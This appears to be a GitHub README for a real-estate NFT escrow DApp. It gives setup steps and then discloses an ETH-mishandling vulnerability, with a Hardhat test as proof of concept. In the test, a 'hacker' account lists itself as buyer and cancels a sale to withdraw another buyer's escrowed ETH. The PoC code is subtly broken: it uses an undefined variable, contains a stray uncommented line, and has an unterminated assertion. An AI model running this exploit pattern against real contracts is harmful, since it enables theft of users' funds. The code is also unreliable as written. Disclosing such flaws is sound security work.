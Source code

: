 # Real Estate NFT DApp

## Technology Stack & Tools

- Solidity (Writing Smart Contracts & Tests)
- Javascript (React & Testing)
- [Hardhat](https://hardhat.org/) (Development Framework)
- [Ethers.js](https://docs.ethers.io/v5/) (Blockchain Interaction)
- [React.js](https://reactjs.org/) (Frontend Framework)

## Requirements For Initial Setup
- Install [NodeJS](https://nodejs.org/en/)

## Setting Up
### 1. Clone/Download the Repository

### 2. Install Dependencies:
`$ npm install`

### 3. Run tests
`$ npx hardhat test`

### 4. Start Hardhat node
`$ npx hardhat node`

### 5. Run deployment script
In a separate terminal execute:
`$ npx hardhat run ./scripts/deploy.js --network localhost`

### 7. Start frontend
`$ npm run start`

## Mishandling of ETH Vulnerability

### Summary
This vulnerability led to unauthorized ETH withdrawals during sale cancellations, as shown in the provided proof of concept (POC).

<details>
<summary>Click to view the Proof of Concept</summary>

```javascript
describe("ETH Mishandling in Cancel Sale", () => {
    describe("Failure", async () => {
        it("Check for deposit earnest", async () => {
            const nftId_1 = 1
            const nftId_2 = 2

            // Deposit for NFT 1
            const depositTx = await escrow.connect(buyer).depositEarnest(1, {
                value: tokens(5)
            })
            await depositTx.wait()

            // Escrow balance before
            const escrowBalanceBefore = await escrow.getBalance()

            // Hacker balance before
            const hackerBalanceBefore = await hre.ethers.provider.getBalance(
                hacker.address)

            // Inspector passes inspection for NFT 1
            const inspectionTx1 = await escrow.connect(inspector).updateInspectionStatus(1, true)
            await inspectionTx1.wait()

            // Approve sale by buyer, seller and lender for NFT 1
            const approveTx1 = await escrow.connect(buyer).approveSale(1)
            await approveTx1.wait()

            const approveTx2 = await escrow.connect(seller).approveSale(1)
            await approveTx2.wait()

            const approveTx3 = await escrow.connect(lender).approveSale(1)
            await approveTx3.wait()

            // Lender send ETH to the contract for NFT 1
            const inspectionTx2 = await lender.sendTransaction({
                to: escrow.address,
                value: tokens(5)
                })

            // Mint NFT 2
            const mintTx2 = await realEstate.connect(seller).mint("https://ipfs.io/ipfs/QmTudSYeM7mz3PkYEWXWqPjomRPHogcMFSq7XAvsvsgAPS")
            await mintTx2.wait()

            // Approve NFT 2 for Escrow
            const approveTx = await realEstate.connect(seller).approve(escrow.address, 2);
            await approveTx.wait()

            // List NFT 2
            const listTransaction2 = await escrow.connect(seller).list(
                2, hacker.address, 
                tokens(15), 
                tokens(10))
            await listTransaction2.wait()

            // Hacker cancel sale for NFT 2
            const cancelTx = await escrow.connect(hacker).cancelSale(2);
            await cancelTx.wait()

            // Check Escrow balance after cancel sale   
            expect(escrowBalanceAfter).to.equal(escrowBalanceBefore);

            // Hacker balance after
            const hackerBalanceAfter = await hre.ethers.provider.getBalance(hacker.address)
            expect(hackerBalanceAfter).to.be.greaterThan(hackerBalanceBefore)

            Finalize sale for NFT 1
            await expect(escrow.connect(seller).finalizeSale(1))
        })
    })
})
````
</details>


